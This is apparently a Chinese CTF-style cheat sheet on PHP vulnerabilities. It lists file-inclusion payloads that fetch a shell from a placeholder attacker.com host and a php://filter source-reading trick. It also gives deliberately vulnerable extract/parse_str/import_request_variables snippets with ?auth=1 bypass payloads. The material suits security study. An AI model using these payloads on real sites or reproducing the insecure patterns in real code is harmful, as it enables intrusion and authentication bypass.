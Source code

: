 



### php伪协议
* 条件
> allow_url_include = 1

* 参数
``` 

?file=http://attacker.com/shell.jpg
?file=zip://attacker.com/shell.php
# 本地文件包含
php://filter/convert.base64-encode/resource=index.php
```
----
### 变量漏洞

#### 函数使用不当
1. extract函数
```
<？php
$auth = false;
extract($_GET);
if($auth){
	echo "flag{..}"
}else {
	echo "access Denied";
}
?>
```
* 构建payload
> ?auth=1

2. parse_str函数
```
<?php 
$auth = false;
parse_str($_SERVER['QUERY_STRING']);
if($auth){
	echo "flag{...}";
}else{
	echo "access Denied";
}
?>
```
* 构建payload
> ?auth=1

3. import_request_variables函数
```
<?php 
$auth = false;
import_request_variables('G');
if($auth){
	echo "flag{...}";
}else{
	echo "access Denied";
}
?>
```
> G代表GET、P代表POST、C代表Cookies.排在前面的字符会覆盖后面的字符，如：GP，POST请求会忽略。
